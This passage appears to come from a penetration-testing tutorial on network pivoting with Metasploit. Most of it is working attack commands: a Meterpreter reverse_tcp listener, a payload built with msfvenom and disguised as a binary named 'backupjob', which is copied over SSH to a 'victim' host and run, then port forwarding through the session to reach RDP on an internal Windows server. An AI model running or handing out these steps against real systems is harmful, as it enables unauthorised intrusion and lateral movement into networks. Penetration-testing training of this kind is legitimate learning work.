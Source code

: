 ```shell-session
msfconsole -q
use exploit/multi/handler
set lhost 0.0.0.0
set lport 8080
set payload linux/x64/meterpreter/reverse_tcp
run
```

**3.** Copy the backupjob binary file to the Ubuntu pivot host over SSH and execute it to gain a Meterpreter session.

```shell-session
# From kali, we copy the file
scp backupjob $username@$ip:~/

# Connect to the victim's machine
ssh $username@$ip
chmod +x backupjob 

# And execute it
./backupjob
```


**4.** Once the meterpreter Session is established, use Metasploit's post-exploitation `portfwd` module:

```
# List help
meterpreter> help portfwd

# Create Local TCP Relay: it requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server $NewDiscoveredIp on `3389` port (`-p`) via our Meterpreter session
meterpreter > portfwd add -l 3300 -p 3389 -r $NewDiscoveredIp
```

**5.** Connect to victim's machine2 from the attacker machine:

```shell-session
xfreerdp /v:localhost:3300 /u:$username /p:$password

# use Netstat to view information about the session we recently established
netstat -antp
```



#### Module `ping_sweep` in metasploit

Module ping_sweep in metasploit allows us to perform a ping sweep from our meterpreter session to the new discovered subnet (reachable only from that session). 

**1.** Create a payload for Ubuntu Pivot Host (our victim's machine 1):

```shell-session
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=$ip -f elf -o backupjob LPORT=8080
```

